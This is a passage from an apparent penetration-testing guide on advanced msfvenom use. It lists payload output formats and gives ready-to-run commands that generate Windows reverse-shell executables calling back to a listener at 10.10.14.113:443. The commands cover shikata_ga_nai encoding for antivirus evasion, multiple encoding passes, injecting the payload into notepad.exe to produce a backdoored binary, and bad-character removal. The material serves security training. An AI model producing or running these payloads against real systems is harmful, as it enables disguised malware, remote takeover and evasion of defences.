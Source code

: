```bash
               2 Dir(s)   9,997,516,800 bytes free
```

### Advanced MSFvenom Techniques

#### Multiple Format Support

**Common formats:**
```bash
# Windows formats
-f exe          # Windows executable
-f dll          # Windows DLL
-f msi          # Windows installer
-f aspx         # ASP.NET web application
-f aspx-exe     # ASP.NET executable

# Linux formats
-f elf          # Linux executable
-f elf-so       # Linux shared object

# Cross-platform formats
-f jar          # Java archive
-f war          # Web application archive
-f python       # Python script
-f powershell   # PowerShell script
-f bash         # Bash script
```

#### Encoding for Evasion

**Basic encoding:**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -e x86/shikata_ga_nai -f exe > encoded_payload.exe
```

**Multiple encoding iterations:**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -e x86/shikata_ga_nai -i 3 -f exe > multi_encoded.exe
```

#### Template Injection

**Inject into existing executable:**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -x notepad.exe -f exe > backdoored_notepad.exe
```

#### Bad Character Removal

**Remove problematic characters:**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -b '\x00\x0a\x0d' -f exe > clean_payload.exe
```
